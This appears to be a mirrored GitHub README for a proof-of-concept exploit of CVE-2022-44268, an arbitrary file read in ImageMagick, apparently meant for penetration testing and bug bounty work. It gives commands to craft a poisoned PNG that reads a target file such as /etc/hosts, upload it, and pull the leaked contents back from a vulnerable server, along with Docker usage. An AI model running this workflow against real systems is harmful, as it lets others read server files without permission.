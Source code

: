# CVE-2022-44268

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kljunowsky](https://github.com/kljunowsky) |
| Url      | [https://github.com/kljunowsky/CVE-2022-44268](https://github.com/kljunowsky/CVE-2022-44268)                                               |
| Stars    | 7                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* applicati* bugbounty* bugbounty-tool* bugbountytips* cve-2022-44268* exploit* penetration-testing* penetration-testing-tools* proof-of-concept* security* web* webapplicationhacking

</details>

## Readme

# CVE-2022-44268 🧙‍♂️

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

### Video 📼
https://youtu.be/quKxwNAMBIA


## Usage 🛠 

Poison the image ☣️
```
python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/hosts --output poisoned.png
```
```
Upload poisoned PNG image.
```
Check if exploit was successful 🗡
```
python3 CVE-2022-44268.py --url http://vulnerable-imagemagick.com/uploads/vulnerable.png
```

## Running from Docker :whale:

Build
```
docker build -t cve-2022-44268 .
```

Run
```
docker run -v $(pwd)/data:/data -ti cve-2022-44268 --image /data/random.png --file-to-read "/etc/hosts" --output /data/poisoned.png
```

## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url | The URL of the uploaded PNG image | String
--image | Input PNG file | File
--output | Output PNG file | File
--file-to-read | File to read from vulnerable host | String


## Contact Me📇

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[ShiftSecurityConsulting](https://shiftsecurityconsulting.com)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
#### More details: https://www.metabaseq.com/imagemagick-zero-days/



## Get the content

```
git clone https://github.com/kljunowsky/CVE-2022-44268
cd CVE-2022-44268
```

{% embed url="https://github.com/kljunowsky/CVE-2022-44268" %}

<figure><img src="https://avatars.githubusercontent.com/u/104329412?v=4" alt=""><figcaption><p>kljunowsky</p></figcaption></figure>
